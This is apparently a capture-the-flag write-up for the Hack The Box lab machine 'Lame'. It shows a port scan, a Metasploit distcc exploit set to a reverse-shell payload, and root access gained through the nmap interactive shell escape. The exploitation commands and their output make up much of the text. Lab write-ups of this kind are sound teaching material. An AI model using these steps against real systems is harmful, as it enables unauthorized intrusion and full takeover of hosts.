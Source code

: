 ```yaml
---
title: HTB - Lame
date: 2023-11-27
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, suid, hacktricks, metasploit, distccd, cve-2004-2687]
img_path: /assets/lame/
published: true
---
```


![room_banner](lame_banner.png)

## Overview

|:-:|:-:|
|Machine|[Lame](https://app.hackthebox.com/machines/1)|
|Rank|Easy|
|Time|45min|
|Focus|SUID, Metasploit|

## 1. Initial Enum

```shell
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 10.10.10.3 -p-

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp   open  ssh    OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

Aggressive OS guesses: Linux 2.6.23 (92%)

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m21s, deviation: 3h32m10s, median: 19s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-11-27T15:18:00-05:00
```

> FTP server is empty & SMB enumeration lead to nothing.

## 2. Initial Foothold

> [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc): _**Distcc** is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed._

> msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse

```shell
# meterpreter
cd home
ls
ftp
makis
service
user
cd makis
ls
user.txt
```
## 3. Privilege Escalation

```shell
daemon@lame:/$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
...
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```

<figure>
    <img src="gtfobins_suid_sudo_nmap.png"
    alt="GTFOBins nmap" >
</figure>

> SUID section does not work --> SUDO (b) works!

```shell
daemon@lame:/usr/bin$ ./nmap --interactive
./nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# cat /root/root.txt
cat /root/root.txt
```

<figure>
    <img src="lame_pwned.png"
    alt="Machine pwned" >
</figure>